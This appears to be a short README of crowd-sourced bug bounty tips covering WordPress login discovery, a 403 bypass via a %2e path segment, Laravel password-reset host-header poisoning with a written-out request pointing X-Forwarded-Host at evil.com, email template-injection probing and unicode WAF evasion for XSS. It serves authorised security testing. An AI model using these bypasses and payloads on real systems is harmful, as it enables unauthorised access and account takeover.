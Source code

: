 # Intigriti Bug Bounty Tips

## Find WP login

Found credentials but no Wordpress login page?

Go to `/wp-admin/install.php` and WordPress will reveal the exact location!

![INT1](INT1.png)

Credit: @sw33tLie

## 403 Forbidden bpyass:

Gettting a 403 error?

Try appending `%2e` after the first slash!

`https://host.com/path` = <span style="color:red">403 FORBIDDEN</span>

`https://host.com/%2e/path` = <span style="color:green">200 OK</span>

Credit: @rex0__

## Laravel trick:

Testing a laravel app?

On default settings, its vulnerable to HTTP host override via X-Forwarded-Host when used behind a reverse proxy.

```
POST /reset-password HTTP/1.1
HOST: neginx.laravel.app
X-Forwarded-Host: evil.com
email=victim@mail.com&username=sadvictim
```

Credit: @atul_hax

## <% in e-mails:

Testing for injections in e-mails?

Check the e-mail source code for literal characters or evaluated payloads & use basic locators such as `<%`.

![INT2](INT2.png)

Credit: @ngkogkos

## Unicode WAF evasion:

Use invalid unicode characters to bypass the WAF! Spice up your XSS payloads with characters like `\uffff`
